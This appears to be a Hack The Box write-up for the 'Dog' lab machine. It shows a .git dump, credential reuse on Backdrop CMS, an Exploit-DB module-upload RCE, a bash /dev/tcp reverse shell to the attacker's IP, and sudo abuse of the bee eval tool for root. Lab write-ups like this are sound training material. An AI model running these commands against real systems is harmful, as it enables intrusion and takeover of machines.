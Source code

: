 # 🐾 Hack The Box - Dog
![Screenshot](https://imgur.com/7MgR1KL.png)

### 🌐 Machine Information
- **IP:**  10.10.11.58
- **OS:** Linux

### 🧭 Information Gathering
- I begin by scanning the target machine using Nmap to identify open ports and running services: `nmap -A -p- 10.10.11.58 -oN nmap_scan`
![Screenshot](https://imgur.com/MNXz0uh.png)
- Nmap Results 2 open ports and 1 interesting finding: `22 (ssh)`, `80 (HTTP)` and `.git` is exposed
- To make the domain easier to access, I added the following line to /etc/hosts: `10.10.11.58 dog.htb`
![Screenshot](https://imgur.com/aBtUadM.png)
- Browsing to http://dog.htb, I found a Backdrop CMS login page
![Screenshot](https://imgur.com/K84alMF.png)

### 📂 Git Repository Dump & Initial Access
- Since the .git directory was publicly accessible, I used git-dumper to retrieve the full source code: `git-dumper http://dog.htb gitdump`
![Screenshot](https://imgur.com/m1CD9uj.png)
- Once dumped, I reviewed the contents and discovered database credentials in `settings.php` 
![Screenshot](https://imgur.com/nE3dinF.png)
- I then searched the codebase for email addresses using: `grep -rn "dog"`
- This revealed an email address
![Screenshot](https://imgur.com/hpfeNIb.png)
- I attempted to log into the CMS using the email and the MySQL password found earlier: `tiffany@dog.htb:BackDropJ2024DS2024`
![Screenshot](https://imgur.com/DKYpuzX.png)
- It worked.

### 🧩 Identifying CMS Version & Exploiting RCE
- After logging in, I navigated to the CMS status page: `http://dog.htb/?q=admin/reports/status`
![Screenshot](https://imgur.com/tPFSSoT.png)
- The version identified was Backdrop CMS 1.27.1
- Using searchsploit, I looked for known vulnerabilities: `searchsploit backdrop 1.27.1`
![Screenshot](https://imgur.com/S08xDJK.png)
- One exploit offered remote code execution (RCE). I used the script from Exploit-DB (Locate it through the path provided by searchsploit): `python3 52021.py http://dog.htb`
![Screenshot](https://imgur.com/50sfPPU.png)
- Before uploading the malicious module, I modified the module info (the file with the .info extension) for easy identification. 
- Before:

  ![Screenshot](https://imgur.com/XSbZoYD.png)
- After:

  ![Screenshot](https://imgur.com/oZEDlWu,png)
- I then manually uploaded it at: `http://dog.htb/?q=admin/installer/manual`
![Screenshot](https://imgur.com/5yAEwk2.png)
**Note:** I converted the zip file to .tar.gz, as .zip uploads were blocked.
![Screenshot](https://imgur.com/pWAoHIF.png)
- Once installed, I accessed the shell via: `http://dog.htb/modules/shell/shell.php`
![Screenshot](https://imgur.com/pdKzR0W.png)
- To get a reverse shell on my local machine i used this method:
Attacker (listener): `nc -lvnp 4444`
Target (shell): `bash -c 'bash -i >& /dev/tcp/10.10.14.9/4444 0>&1'`
**Note:** `10.10.14.9` is my ip
![Screenshot](https://imgur.com/8Dg5EWG.png)

### 👤 Privilege Escalation to User
- In `/home`, there were two users: `jobert` and `johncusack`. The `user flag` belonged to `johncusack`, but I didn't have direct access.
![Screenshot](https://imgur.com/BToevl6.png)
- I tried switching users with the database password found earlier: `su johncusack`

  ![Screenshot](https://imgur.com/3b388rm.png)
- It worked. After switching, I upgraded the shell for better usability: `script /dev/null -c bash`
- I then accessed the user flag.

  ![Screenshot](https://imgur.com/wmXeXqT.png)

### 🔐 Privilege Escalation to Root
- Running `sudo -l` revealed: `(ALL) NOPASSWD: /usr/local/bin/bee`
![Screenshot](https://imgur.com/yAoWqxL.png)
- Executing `bee` showed a PHP evaluation tool. One of its features, `eval`, allowed arbitrary PHP execution. 
![Screenshot](https://imgur.com/8qtDuGn.png)
- My initial attempt failed because it required a valid project root.
![Screenshot](https://imgur.com/t7NgCYy.png)
- After some trial and error, I found the correct usage: `sudo /usr/local/bin/bee --root=/var/www/html eval 'system("bash");'`
- It turns out I had to specify the Backdrop root directory, which is where the Backdrop CMS is located: `/var/www/html`
![Screenshot](https://imgur.com/4i9nzQS.png)
- This granted a root shell. From there, I read the root.txt and captured the root flag.

  ![Screenshot](https://imgur.com/thbiBzV.png)

